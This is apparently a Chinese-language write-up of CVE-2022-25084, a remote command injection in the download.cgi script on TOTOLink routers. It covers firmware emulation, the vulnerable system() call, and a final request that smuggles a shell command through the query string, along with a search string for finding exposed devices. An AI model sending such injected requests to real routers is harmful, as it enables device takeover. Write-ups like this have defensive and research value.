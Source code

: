 # TOTOLink 多个设备 download.cgi 远程命令执行漏洞 CVE-2022-25084

## 漏洞描述

TOTOLink 多个设备 download.cgi文件存在远程命令执行漏洞，攻击者通过构造特殊的请求可以获取服务器权限

## 漏洞影响

```
TOTOLink 多个设备
```

## 网络测绘

```
"totolink"
```

## 漏洞复现

下载路由器固件

![image-20220519180647333](images/202205191806401.png)

使用binwalk分解固件

![image-20220519180700129](images/202205191807189.png)

查看分解出来的文件

![image-20220519180713772](images/202205191807833.png)

使用qemu搭建路由器

```
#set network
sudo brctl addbr virbr2
sudo ifconfig virbr2 192.168.6.1/24 up
sudo tunctl -t tap2
sudo ifconfig tap2 192.168.6.11/24 up
sudo brctl addif virbr2 tap2

qemu-system-mipsel -M malta -kernel vmlinux-3.2.0-4-4kc-malta -hda debian_wheezy_mipsel_standard.qcow2 -append "root=/dev/sda1" -netdev tap,id=tapnet,ifname=tap2,script=no -device rtl8139,netdev=tapnet -nographic
```

创建后在qemu里执行命令启动路由器

```
ifconfig eth0 192.168.6.11 up 
scp -r squashfs-root/ root@192.168.6.11:/root/    	
chroot ./squashfs-root/ /bin/sh
touch /var/run/lighttpd.pid
./bin/lighttpd -f ./lighttp/lighttpd.conf -m ./lighttp/lib
```

注意 `lighttpd.conf` 文件需要修改 `server.pid-file` 参数

![image-20220519180729455](images/202205191807515.png)

启动后访问路由器页面

![image-20220519180743756](images/202205191807814.png)

我们找到需要分析的文件目录 `squashfs-root/web_cste/cgi-bin`

![image-20220519180807271](images/202205191808361.png)

分析 cgi文件 `downloadFile.cgi`

![image-20220519180821187](images/202205191808273.png)

我们注意到其中的system执行命令

```
pcVar1 = getenv("QUERY_STRING");
memset(acStack1424,0,0x200);
memset(acStack912,0,0x200);
sprintf(acStack1424,"echo QUERY_STRING:%s >/tmp/download",pcVar1);
system(acStack1424);
```

其中 getenv 从请求Url中获取参数,传参给pcVar1，再通过下面的sprintf 赋值给 acStack1424 使用 system函数 进行命令执行

![image-20220519180833486](images/202205191808559.png)

我们构造请求包控制 QUERY_STRING 参数来进行恶意命令执行

```
/cgi-bin/downloadFlile.cgi?payload=`ls>../cmd.txt`
```

![image-20220519180852180](images/202205191808272.png)